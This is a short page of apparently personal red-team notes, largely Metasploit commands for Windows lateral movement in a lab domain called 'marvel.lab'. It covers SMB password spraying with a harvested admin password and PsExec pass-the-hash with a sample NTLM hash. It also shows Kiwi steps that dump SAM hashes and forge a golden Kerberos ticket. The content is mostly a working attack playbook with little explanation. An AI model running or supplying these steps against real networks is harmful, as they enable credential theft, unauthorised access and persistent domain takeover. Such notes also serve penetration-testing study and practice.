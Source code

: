 SMB login (spray credentials)

{% highlight PowerShell %}
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
{% endhighlight %}

PSExec (PTH)

> Only for Rid 500 admins https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/

{% highlight PowerShell %}
msf > use exploit/windows/smb/psexec
msf > set smbuser Administrator
msf > set smbpass 00000000000000000000000000000000:DF0BBE45C5C63EAD8DD28966AD69B3EA
{% endhighlight %}

Can just use password for other accouns

{% highlight PowerShell %}
msf > use exploit/windows/smb/psexec
msf > set smbuser test
msf > set smbpass Password123
{% endhighlight %}

## Golden Ticket

Load the Kiwi module

{% highlight PowerShell %}
load kiwi
{% endhighlight %}

Drop into shell

{% highlight PowerShell %}
Shell
{% endhighlight %}

Get SID

{% highlight PowerShell %}
wmic useraccount get name,sid
{% endhighlight %}

Get hash

{% highlight PowerShell %}
lsa_dump_sam
{% endhighlight %}

Create Gold Ticket

{% highlight PowerShell %}
golden_ticket_create -d marvel.lab -u evilsaint -k <KRBTGT USER HASH> -s <sid> -t /root/Downloads/goldkey.tkt
{% endhighlight %}

